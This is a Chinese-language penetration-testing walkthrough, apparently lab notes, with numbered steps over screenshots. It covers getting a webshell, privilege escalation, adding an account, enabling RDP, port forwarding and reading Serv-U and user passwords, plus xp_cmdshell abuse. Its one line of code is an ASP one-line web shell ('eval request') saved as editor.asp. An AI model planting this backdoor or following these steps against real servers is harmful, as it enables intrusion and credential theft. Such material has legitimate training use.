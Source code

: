 1. 查看密码
![64f9833d5939e8a85a81329188d84a29.png](../../_resources/64f9833d5939e8a85a81329188d84a29.png)
2. 获取webshell
![cfbb3f0dd7198d30186545db53e42e65.png](../../_resources/cfbb3f0dd7198d30186545db53e42e65.png)
3. 执行cmd
![66dad01511b854232c5e37d6126b1f8a.png](../../_resources/66dad01511b854232c5e37d6126b1f8a.png)
结果
![9e739d771c9fc7ece887b14c690657d4.png](../../_resources/9e739d771c9fc7ece887b14c690657d4.png)
拒绝访问
4. 上传cmd
![92032ea9d9b89f6b550b877992429a36.png](../../_resources/92032ea9d9b89f6b550b877992429a36.png)
6. 执行命令
![369b972e37d9a26ac70de88ac47df4f5.png](../../_resources/369b972e37d9a26ac70de88ac47df4f5.png)
7. 提权工具对比
![6b123ffef2d13f594733b553ea7eaea4.png](../../_resources/6b123ffef2d13f594733b553ea7eaea4.png)
8. 查看权限
![7acc1a1f07b8fb855deec0d9f9b34aa4.png](../../_resources/7acc1a1f07b8fb855deec0d9f9b34aa4.png)
9. 添加用户
![f41df3166336a528c1a4acdd79a5df76.png](../../_resources/f41df3166336a528c1a4acdd79a5df76.png)
10. 查看添加结果
![6ca000e3f2e5dc8fb8dcfe937a932390.png](../../_resources/6ca000e3f2e5dc8fb8dcfe937a932390.png)
添加失败
12. 上传pr利用pr提权
![9b96ed7648bc3683aac7121192c660a3.png](../../_resources/9b96ed7648bc3683aac7121192c660a3.png)
13.  添加成功
![e18539d89dddc28cb167522f08d271f3.png](../../_resources/e18539d89dddc28cb167522f08d271f3.png)
14. 查看端口开放情况
![6dd006ee1c1e0a11b03f61c032d67b7f.png](../../_resources/6dd006ee1c1e0a11b03f61c032d67b7f.png)
3389没有开启
15. 上传3389开启程序
![3f9b7b311e8bf623ba7d186e9a1cf6c8.png](../../_resources/3f9b7b311e8bf623ba7d186e9a1cf6c8.png)
16. 检查端口是否开放
![68b993fad658ca42d9da4ebd7954026d.png](../../_resources/68b993fad658ca42d9da4ebd7954026d.png)
17. 网站和物理机不通
![57f7605f1583bb079b8a2879afe6cf41.png](../../_resources/57f7605f1583bb079b8a2879afe6cf41.png)
配置流量转发
18. 肉鸡配置
![97ba3dfbb9c56983f111912d4625e8f7.png](../../_resources/97ba3dfbb9c56983f111912d4625e8f7.png)
19. 物理机配置
![ef05460e77675295c9c6f3bdbb6e76f7.png](../../_resources/ef05460e77675295c9c6f3bdbb6e76f7.png)
20. 读取原有密码
![4cf82704c412b1036e19b66a8e925e80.png](../../_resources/4cf82704c412b1036e19b66a8e925e80.png)
21. 读取用户密码
![5e982b1a5b0058b2b6b0ee89d8cda34c.png](../../_resources/5e982b1a5b0058b2b6b0ee89d8cda34c.png)
22. serv-u
![ea0c9a61365bea31aa4d6b2ade3e9b16.png](../../_resources/ea0c9a61365bea31aa4d6b2ade3e9b16.png)
23. 蚁剑连接
制作木马 editor.asp
```
<%eval request("chopper")%>
```
![481223627f30e8747b886df7e6f77e35.png](../../_resources/481223627f30e8747b886df7e6f77e35.png)
24. 下载servu 配置文件 读取配置文件
![39be7eb296c03d8bc8bf6aba0ad0d235.png](../../_resources/39be7eb296c03d8bc8bf6aba0ad0d235.png)
25. 登录servu
![7e73a5051510b44ad1df255d067c65b2.png](../../_resources/7e73a5051510b44ad1df255d067c65b2.png)
26. 检查
![a1162bcd7a5056c28dcd84554da941d1.png](../../_resources/a1162bcd7a5056c28dcd84554da941d1.png)
27. mysql
28. sqlserver 连接数据库
![85fbc91176493c2c75ad3d75dfb7fd2f.png](../../_resources/85fbc91176493c2c75ad3d75dfb7fd2f.png)
29.xpshell
![d92a425bd372b1e5f115b3c5e0aebc52.png](../../_resources/d92a425bd372b1e5f115b3c5e0aebc52.png)
30. 开启xpshell
![7e976834d3d968efb1920439d13f7b9a.png](../../_resources/7e976834d3d968efb1920439d13f7b9a.png)
31. xpshell
![97488e63605d1a909056069586a66c8c.png](../../_resources/97488e63605d1a909056069586a66c8c.png)
32. 查询当前用户
![5b06e181c79ae14d8290fd4b3f6f25d6.png](../../_resources/5b06e181c79ae14d8290fd4b3f6f25d6.png)
33. 创建 OLE 对象实例 ,此功能默认是关闭的, 需要开启
![6901c459d3b61965795fe59c420a68b7.png](../../_resources/6901c459d3b61965795fe59c420a68b7.png)
34. 验证
![09299979078e38cd14adcd48b03fe5b6.png](../../_resources/09299979078e38cd14adcd48b03fe5b6.png)
35. 沙盒
![2da881afcedaa658863d3389661d8c98.png](../../_resources/2da881afcedaa658863d3389661d8c98.png)
36. 沙盒运行
![97d1308d2ec38ba67a6fa089ad5b70be.png](../../_resources/97d1308d2ec38ba67a6fa089ad5b70be.png)
![7a8a7aabe6e8ec0993302e33df45e4ff.png](../../_resources/7a8a7aabe6e8ec0993302e33df45e4ff.png)



		